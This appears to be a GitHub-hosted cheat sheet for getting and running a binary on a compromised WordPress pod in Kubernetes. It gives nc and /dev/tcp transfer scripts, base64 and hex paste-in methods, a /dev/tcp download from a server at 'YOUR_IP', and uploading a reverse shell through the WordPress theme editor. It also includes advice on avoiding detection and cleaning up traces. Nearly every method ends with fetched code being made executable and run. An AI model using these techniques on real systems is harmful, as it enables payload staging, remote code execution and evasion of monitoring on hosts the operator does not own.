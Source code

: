 

```
#!/bin/bash

# Usage: ./transfer_file.sh <file_to_transfer> <pod_ip> [<port>]
if [ "$#" -lt 2 ]; then
  echo "Usage: $0 <file_to_transfer> <pod_ip> [<port>]"
  exit 1
fi

FILE_TO_TRANSFER=$1
POD_IP=$2
PORT=${3:-8000}

# Check if the file exists
if [ ! -f "$FILE_TO_TRANSFER" ]; then
  echo "File not found: $FILE_TO_TRANSFER"
  exit 1
fi

# Notify the user of the setup and start the listener
echo "Setting up listener on port $PORT for file transfer..."
echo "Run 'receive_file.sh' on the WordPress pod to receive the file."
nc -lvp "$PORT" < "$FILE_TO_TRANSFER"
```

##
##


```
#!/bin/bash

# Usage: ./receive_file.sh <local_machine_ip> <port> <output_filename>
if [ "$#" -lt 3 ]; then
  echo "Usage: $0 <local_machine_ip> <port> <output_filename>"
  exit 1
fi

LOCAL_MACHINE_IP=$1
PORT=$2
OUTPUT_FILE=$3

# Set up the connection and receive the file
exec 3<>/dev/tcp/$LOCAL_MACHINE_IP/$PORT
cat <&3 > "$OUTPUT_FILE"
echo "File received as $OUTPUT_FILE."
exec 3<&-  # Close input stream
exec 3>&-  # Close output stream
```




1. Base64 Encoding + Copy/Paste
Base64 encoding is a common way to convert binary data into a text format that can be easily copied and pasted between machines. Once you paste the Base64 data, you decode it back into its binary form.

Steps:

On your local machine, encode the binary (e.g., your_binary) into Base64:

```
base64 your_binary > binary.b64
```
This converts the binary file into a long string of Base64 text.

On the WordPress pod, create a new file where you can paste the Base64 string:

```
cat > binary.b64
```

After running the command, paste the Base64 content into the pod and press Ctrl+D to save the file.

Decode the Base64 file back into the original binary:

```
base64 -d binary.b64 > your_binary
chmod +x your_binary   # Make it executable
./your_binary          # Run the binary
```

Why it works: Even without network utilities (curl, wget, etc.), most shells have cat and base64 utilities. This approach works as long as the shell supports Base64 decoding.

2. echo or printf File Transfer (Hex Dumping)
Hex dumping is another way to convert binary files into text that can be easily pasted into a terminal. It works similarly to Base64 but uses hexadecimal encoding.

Steps:

On your local machine, convert the binary file into hexadecimal using xxd:

```
xxd -p your_binary > binary.hex
```

This creates a text file containing the hexadecimal representation of the binary.

On the WordPress pod, create a file to paste the hex dump into:

```
cat > binary.hex
```

Paste the hex content and save it with Ctrl+D.

Convert the hex back into a binary file:

```
xxd -r -p binary.hex your_binary
chmod +x your_binary    # Make it executable
./your_binary           # Run the binary
```

Why it works: Like Base64, xxd is often available in shells. This method is especially useful for small files since it doesn't require additional tools.

3. Script a Reverse Shell to Transfer Files
If you can establish a reverse shell, you can use it to create a file transfer connection between your local machine and the pod. A reverse shell allows the pod to connect back to a listener on your machine.

Steps:

On your local machine, set up a simple HTTP server to host the file:

```
python3 -m http.server 8000
```

This command will serve files in the current directory over HTTP on port 8000.

On the WordPress pod, use bash to connect to your local server:

```
exec 5<>/dev/tcp/YOUR_IP/8000
cat <&5 > your_binary   # Save the incoming data into your_binary
```

After the file transfer completes, make the binary executable:

```
chmod +x your_binary
./your_binary
```
Why it works: If /dev/tcp is enabled in the shell, you can establish raw TCP connections without needing curl or nc. This approach relies on creating an outbound connection to your server.

4. Use the WordPress Filesystem
Since you are working with a WordPress pod, there may be opportunities to upload files directly via the WordPress admin interface if it is accessible.

Steps:

Access the WordPress dashboard (if possible) using a browser.
Go to Appearance > Theme Editor or Plugins > Plugin Editor.
If editing is enabled, you can upload a reverse shell script or a file containing the binary data by embedding it into PHP code. For example, you could use PHP to decode a Base64 string and save it as a file on the server.
Caution: This method is potentially noisy because changes to the WordPress site could be detected by monitoring systems. Always clean up after any changes you make.

5. Leverage Kubernetes Features
If the WordPress pod is running in a Kubernetes environment and you have some access to Kubernetes features, you may be able to use kubectl to copy files directly into the pod.

Steps:

On a machine that has Kubernetes admin privileges, use kubectl cp to copy a file from your local system into the WordPress pod:

```
kubectl cp ./your_binary default/wordpress-pod:/path/to/destination
```
Then, on the pod:

```
chmod +x /path/to/destination/your_binary
/path/to/destination/your_binary
```

Why it works: If you have access to Kubernetes admin tools like kubectl, you can directly interact with the pod’s filesystem.

6. Using /dev/tcp for Transfers
Some shells support file transfers using bash built-in TCP connections through /dev/tcp/. You can use this feature to download files from your machine.

Steps:

On your local machine, start a listener that serves the binary file:

```
nc -lvp 8000 < your_binary
```
On the WordPress pod, use bash to connect to the listener and receive the file:

```
exec 3<>/dev/tcp/YOUR_IP/8000
cat <&3 > your_binary
```

Once the file is downloaded, make it executable:

```
chmod +x your_binary
./your_binary
```

Why it works: 
/dev/tcp is a lesser-known but powerful feature in bash that can be used to establish direct TCP connections without needing extra tools like nc.


# Key Considerations:
File Size: These methods work well for smaller files (typically under a few MB). For larger files, you'll need to split them into chunks or find another solution.

Security Monitoring: Some methods (e.g., modifying WordPress files or using reverse shells) can be more easily detected by security systems or leave traces. Be mindful of any cleanup you need to do afterward.

Pod Privileges: Your ability to use these methods depends on the configuration of the shell environment. For example, /dev/tcp might not be available on every shell.
